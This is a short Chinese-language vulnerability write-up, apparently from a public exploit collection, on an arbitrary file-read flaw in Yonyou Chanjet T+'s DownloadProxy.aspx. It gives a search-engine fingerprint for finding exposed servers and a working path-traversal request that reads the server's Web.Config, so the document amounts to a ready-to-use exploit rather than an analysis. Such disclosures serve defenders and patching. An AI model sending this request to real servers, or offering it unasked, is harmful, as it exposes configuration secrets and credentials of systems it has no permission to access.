 # 

# 用友 畅捷通T+ DownloadProxy.aspx 任意文件读取漏洞

## 漏洞描述

用友 畅捷通T+ DownloadProxy.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 漏洞影响

```
用友 畅捷通T+
```

## 网络测绘

```
app="畅捷通-TPlus"
```

## 漏洞复现

登录页面

![image-20220909104559292](./images/202209091045361.png)

验证POC

```
/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config
```

![image-20220909104628456](./images/202209091046535.png)


